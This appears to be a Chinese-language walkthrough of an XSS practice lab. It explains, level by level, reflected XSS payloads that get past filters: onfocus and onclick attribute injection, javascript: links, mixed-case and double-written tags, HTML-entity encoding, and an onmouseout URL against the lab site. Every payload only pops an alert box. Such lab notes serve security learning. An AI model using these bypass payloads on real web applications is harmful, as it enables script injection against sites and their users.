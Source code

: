 ## xss闯关

> 参考：https://blog.csdn.net/wo41ge/article/details/107459332

1. 修改get请求

2. 观察源码，将代码闭合

3. 本节存在htmlspecialchars()函数,会对一些字符进行实体化

观察源码

通过`<input>`标签的一些特殊事件来执行js代码

构造代码：`level3.php?keyword='onfocus=javascript:alert('xss') > //&submit=搜索`

发现没有直接弹窗，这是因为onfocus事件的特殊性造成的

onfocus 事件在对象获得焦点时发生。

onfocus 通常用于 <input>, <select>, 和<a>.

最简单的实例就是网页上的一个输入框,当使用鼠标点击该输入框时输入框被选中可以

输入内容的时候就是该输入框获得焦点的时候,此时输入框就会触发onfocus事件.因此

点击当前页面的输入框就可以完成

4.构造`level4.php?keyword="onfocus=javascript:alert('xss')"`

5.过滤更加严格了，过滤掉了onfuce,此处构造了一个点击触发

```js
?keyword="> <a href=javascript:alert('xss') > xss</a> 
```

6.看源码 大小写绕过

?keyword="> <a HrEf=javascript:alert('xss') > xss</a>

7.双写绕过

"><scscriptript>alert(1);</scscriptript>

8.编码绕过 

使用unicode编码javascript:alert（‘xss’）

9.编码加网址

&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#120;&#115;&#115;&#39;&#41;//http://www.baidu.com

将前面的载荷进行编码，后加上注释网址。

10.隐藏代码

查看源码，分别测试。

<script>alert('xss')</script>&t_link=" type="text"&t_history=" type="text"&t_sort=" type="text"

找到

尝试xss注入

```
&t_sort=" type='text' onclick='javascript:alert(1)'>
```

第17关~18关

https://xss.angelo.org.cn/level17.php?arg01=a&arg02=b%20onmouseout=alert(1)

